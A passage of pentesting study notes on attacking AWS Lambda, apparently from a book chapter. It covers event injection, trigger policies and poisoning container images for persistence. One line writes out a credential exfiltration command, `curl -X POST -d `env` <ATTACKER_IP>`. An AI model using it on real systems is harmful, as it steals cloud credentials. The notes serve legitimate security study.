 - if it is possible to log into the container registry, pull a Docker image, and update it in the AWS environment, then an image can be modified with an attacker’s malware to establish persistence

# Chapter 12: Pentesting Lambda

- Lamba is considered serverless, but technically isolated servers are spun up for the duration of a function’s runtime
    - filesystem is read-only except for `/tmp`
    - you are a low-privileged user
- check environment variables of Lambda functions
    - `aws lambda list-functions --profile <PROFILE>`

## Event Injection

- if RCE can be obtained on the Lambda function, creds can be exfiltrated via environment variables (as opposed to EC2 where it is in the metadata serice)
    - read environment variables with `env` and exfiltrate with `curl` (`curl -X POST -d `env` <ATTACKER_IP>`)
        - bash runs commands enclosed in backticks (`) first
    - Lambda has `curl` by default
- may be able to indirectly invoke a function that is set to automatically trigger upon an event in a different service
    - e.g. lambda function triggers on an uploaded file in an S3 bucket:
    
    `aws lambda get-policy --function-name VulnerableFunction --profile LambdaReadOnlyTester --region us-west-2`
    
    ```json
    {
    	"Version": "2012-10-17",
    	"Id": "default",
    	"Statement": [
    		{
    			"Sid":
    			"000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul",
    			"Effect": "Allow",
    			"Principal": {
    				"Service": "s3.amazonaws.com"
    			},
    			"Action": "lambda:InvokeFunction",
    			"Resource": "arn:aws:lambda:us-west-2:000000000000:function:VulnerableFunction",
    			"Condition": {
    				"StringEquals": {
    					"AWS:SourceAccount": "000000000000"
    				},
    				"ArnLike": {
    					"AWS:SourceArn": "arn:aws:s3:::bucket-for-lambda-pentesting"
    				}
    			}
    		}
    	]
    }
    ```
    